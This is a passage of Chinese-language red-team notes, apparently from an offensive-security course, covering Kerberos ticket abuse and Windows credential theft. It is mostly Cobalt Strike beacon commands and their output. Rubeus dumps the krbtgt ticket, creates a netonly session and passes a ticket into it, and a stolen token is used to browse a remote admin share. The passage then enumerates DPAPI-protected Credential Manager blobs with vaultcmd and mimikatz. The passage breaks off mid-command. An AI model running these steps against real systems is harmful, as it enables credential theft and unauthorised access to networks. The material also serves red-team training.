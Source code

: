 beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /service:krbtgt /luid:0x462eb /nowrap
```

使用```createnetonly ```命令创建一个登陆会话，并且记下新的LUID
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4872
[+] LUID            : 0x92a8c
```

现在使用ptt，指定LUID，把tiket传递到指定会话中
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]

[*] Action: Import Ticket
[*] Target LUID: 0x92a8c
[+] Ticket successfully imported!
```

窃取该进程的访问令牌并访问目标资源

```
beacon> steal_token 4872
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
```


# Data Protection API

Data Protection API是windows里面的一个组件，被windows管理器用来加解密各种用户凭据，比如RDP等。

谷歌浏览器也会用DPAPI保存网站的用户凭据。

# Credential Manager
credential manager blobs存储在```AppData```目錄

```
 beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```


 使用windows自带的vaultcmd命令可以列出
```
 beacon> run vaultcmd /listcreds:"Windows Credentials" /all
```

 或者mimikatz
```
 beacon> mimikatz vault::list
